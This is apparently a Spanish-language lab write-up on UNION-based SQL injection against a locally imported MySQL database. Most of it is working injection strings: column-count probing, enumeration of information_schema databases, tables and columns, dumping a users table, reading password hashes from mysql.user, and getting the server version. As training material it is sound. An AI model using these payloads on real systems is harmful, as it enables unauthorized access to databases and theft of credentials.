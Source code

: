 
# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)


# Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab1-6.png)


# Todas las bases de datos y sus tablas de MySQL
Inyección SQL →
```
999' UNION select null, table_schema,table_name FROM information_Schema.tables;#
```
Obtenemos resultados del nombre de la base de datos con la información de sus columnas→
![](capturas/sql-injection-lab1-7.png)

Vemos otra base de datos con la información de sus columnas dentro de mysql→
![](capturas/sql-injection-lab1-8.png)


# Todos las columnas de MySQL
Inyección SQL →
```
999' UNION select null, table_name, column_name FROM information_Schema.columns;#
```
Muestra el nombre de la tabla y todas sus columnas. Vemos en concreto los resultados en las tablas usuarios y artículos →
![](capturas/sql-injection-lab1-9.png)


# Mostrar todos los datos de la tabla "demos.usuarios"
```
999' UNION SELECT * from demos.usuarios #
```
![](capturas/sql-injection-lab1-10.png)


# Obtener las contraseñas de la BD
```
999' UNION ALL SELECT null, user,password FROM mysql.user;#
```
![](capturas/sql-injection-lab1-11.png)


# Consultar el tipo y la versión de la base de datos
```
999' UNION SELECT null, null, @@version #
```
![](capturas/sql-injection-lab1-12.png)


# Todas las tablas de una BD concreta
```
999' UNION SELECT null, null, TABLE_NAME FROM information_schema.tables WHERE table_schema = 'demos'#
```
![](capturas/sql-injection-lab1-13.png)


# Todos los campos de una tabla concreta
Consulta mysql que devuelve el nombre de las columnas de una tabla de la BD:
```
SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos'
```
Consulta para realizar la inyección:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
Inyección:
```
999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
![](capturas/sql-injection-lab1-14.png)
